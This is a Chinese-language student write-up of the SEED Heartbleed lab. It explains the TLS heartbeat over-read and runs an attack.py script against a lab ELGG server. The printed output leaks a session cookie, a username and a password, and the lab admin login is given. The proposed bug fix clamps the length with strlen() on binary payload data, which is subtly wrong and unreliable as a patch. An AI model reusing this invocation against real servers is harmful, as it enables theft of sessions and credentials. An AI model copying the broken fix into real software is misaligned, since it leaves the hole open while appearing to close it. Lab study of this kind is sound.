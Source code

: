 # 实验准备

设置两个 VM: 

- 攻击者机器
  - 修改/etc/hosts 文件将服务器名映射到服务器 VM 的 IP 地址，在/etc/hosts 中搜索`127.0.0.1   www.heartbleedlabelgg.com`，将承载ELGG应用程序的服务器VM的实际IP地址替换掉127.0.0.1
- 受害者服务器

# Heartbleed漏洞分析

OpenSSL 库中的一个漏洞，受影响的 OpenSSL 版本范围从1.0.1到1.0.1 f，在一些新版本的OpenSSL中无法复现

心跳协议是如何工作的。心跳协议由两种消息类型组成: HeartbeatRequest 包和 HeartbeatResponse 包。客户端向服务器发送一个 HeartbeatRequest 数据包。当服务器接收到它时，它会发回 HeartbeatResponse 数据包中接收到的消息的副本。目标是保持连接活跃

心脏出血攻击是基于心跳请求的。这个请求只是向服务器发送一些数据，服务器将把这些数据复制到它的响应数据包中，这样所有的数据都会得到回显

**在正常情况下，假设请求包含3个字节的数据“ ABC”，因此长度字段的值为3。服务器将把数据放在内存中，并从数据的开头复制3个字节到它的响应数据包。在攻击场景中，请求可能包含3个字节的数据，但长度字段可能是1003。当服务器构造它的响应数据包时，它从数据的开始进行复制(即“ ABC”) ，但是它复制的是1003个字节，而不是3个字节。这额外的1000种类型显然不是来自请求数据包; 它们来自服务器的私有内存，并且它们可能包含其他用户的信息、密钥和密码**

# Task 1: Launch the Heartbleed Attack

攻击步骤：

- 访问 https://www.heartbleedlabelgg.com

- 以管理员身份登录：admin ：seedelgg
- 添加boby为friend，并给他发送私人信息

多次运行攻击的回显如下

可以看出泄露了cookie、username、密码等关键信息

```
# ./attack.py www.heartbleedlabelgg.com

defribulator v1.20
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)

##################################################################
Connecting to: www.heartbleedlabelgg.com:443, 1 times
Sending Client Hello for TLSv1.0
Analyze the result....
Analyze the result....
Analyze the result....
Analyze the result....
Received Server Hello for TLSv1.0
Analyze the result....

WARNING: www.heartbleedlabelgg.com:443 returned more data than it should - server is vulnerable!
Please wait... connection attempt 1 of 1
##################################################################

.@.AAAAAAAAAAAAAAAAAAAAABCDEFGHIJKLMNOABC...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.heartbleedlabelgg.com/profile/boby
Cookie: Elgg=vt3bsst6tb3ov6njhj7kcijn42
Connection: keep-alive
If-None-Match: "1449721729"

..*.......a.3v.O.akf.........b3ov6njhj7kcijn42
Connection: keep-alive

_..@?.
..2....{ d..................=1670072367&username=admin&password=seedlggT.;.8A.K..VY."...."

```

# Task 2: Find the Cause of the Heartbleed Vulnerability

比较良性数据包和攻击者代码发送的恶意数据包的结果，以找出心脏出血漏洞的根本原因

> 当 Heartbeat 请求数据包到来时，服务器将解析数据包以获得有效负载和有效负载长度值(如图1所示)。这里，有效负载只是一个3字节的字符串“ ABC”，有效负载长度值正好是3。服务器程序将盲目地从请求数据包中获取这个长度值。然后，它通过指向存储“ ABC”的内存并将负载长度字节复制到响应负载来构建响应数据包。这样，响应数据包将包含一个3字节的字符串“ ABC”。我们可以启动 HeartBleed 攻击，将有效负载长度字段设置为1003。在构建响应数据包时，服务器将再次盲目地采用这个 Payload 长度值。这一次，服务器程序将指向字符串“ ABC”，并将1003字节作为有效负载从内存复制到响应数据包。除了字符串“ ABC”之外，额外的1000字节被复制到响应数据包中，这些数据包可以是内存中的任何内容，比如机密活动、日志信息、密码等等

图示：

![](https://raw.githubusercontent.com/LaPhilosophie/seedlab/main/Heartbleed%20Attack%20Lab/image/The%20Heartbleed%20Attack%20Communication.png)

​			 

![](https://raw.githubusercontent.com/LaPhilosophie/seedlab/main/Heartbleed%20Attack%20Lab/image/The%20Benign%20Heartbeat%20Communication.png)

通过命令行参数控制有效载荷长度值，该参数默认是0x4000

```
$./attack.py www.heartbleedlabelgg.com -l 0x015B
$./attack.py www.heartbleedlabelgg.com --length 83
```

Question 2.1: As the length variable decreases, what kind of difference can you observe?

回返的信息长度减少

Question 2.2: As the length variable decreases, there is a boundary value for the input length vari-
able. At or below that boundary, the Heartbeat query will receive a response packet without attaching
any extra data (which means the request is benign). Please find that boundary length. You may need
to try many different length values until the web server sends back the reply without extra data. To
help you with this, when the number of returned bytes is smaller than the expected length, the pro-
gram will print "Server processed malformed Heartbeat, but did not return
any extra data."

边界值：22

回显形式1：

> WARNING: www.heartbleedlabelgg.com:443 returned more data than it should - server is vulnerable!

回显形式2：

> Server processed malformed heartbeat, but did not return any extra data.

# Task 3: Countermeasure and Bug Fix

使用`sudo apt-get update`将 OpenSSL 库更新到最新版本，发现之后的攻击无效

Heartbeat request/response 包格式如下：

 ```c
struct {
    HeartbeatMessageType type; // 1 byte: request or the response
    uint16 payload_length; // 2 byte: the length of the payload
    opaque payload[HeartbeatMessage.payload_length];
    opaque padding[padding_length];
} HeartbeatMessage;
 ```

- type是类型信息
- payload_length是有效负载长度

- payload是实际的有效负载
- 填充字段

> 有效负载的大小应该与有效负载长度字段中的值相同，但是在攻击场景中，有效负载长度可以设置为不同的值

导致bug的语句是`memcpy(bp, pl, payload); `，其中，bp指向buffer，pl指向payload，它会将payload长度的内容从pl复制到bp（正如Alice所说），而这并没有做边界检查

在memcpy之前加上以下语句以修订：

```c
payload = payload_length > strlen(pl) ? strlen(pl) : payload_length ;
```


